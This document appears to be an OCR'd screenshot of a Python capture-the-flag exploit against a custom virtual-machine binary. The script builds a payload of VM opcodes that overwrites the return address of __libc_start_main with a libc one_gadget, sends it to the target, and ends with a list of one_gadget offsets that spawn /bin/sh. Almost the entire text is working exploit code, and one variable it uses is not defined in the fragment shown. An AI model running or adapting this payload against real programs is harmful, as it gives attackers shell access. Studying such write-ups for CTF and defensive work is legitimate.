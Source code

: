 ```python

off_ret_one = 0x7F2E9FE3A000+0xf1207-0x7f2e9fe5a840#返回地址上__libc_start_main与one_gadget的偏移

pd = p64(14)#pop v38;


pd += p64(1)+p64(off_ret_stack)#v38 = 0xe8;

pd += p64(26)#*_sp = *_sp - v38;pop v38;

pd += p64(13)#push v38;ret_addr


pd += p64(9)#v38 = *(qword ptr *)v38;

pd += p64(13)#push v38;libc_addr


pd += p64(1)+p64(off_ret_one)#v38 = 0xcfb24;

pd += p64(25)#*_sp = *_sp + v38;pop v38;


pd += p64(11)#**(qword ptr **)_sp = v38;


sla("code>", pd)
ia()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)

constraints:

  rax == NULL
  

0x4527a execve("/bin/sh", rsp+0x30, environ)

constraints:

  [rsp+0x30] == NULL
  

0xf0364 execve("/bin/sh", rsp+0x50, environ)

constraints:

  [rsp+0x50] == NULL
  

0xf1207 execve("/bin/sh", rsp+0x70, environ)

constraints:                 

  [rsp+0x70] == NULL 
'''
```
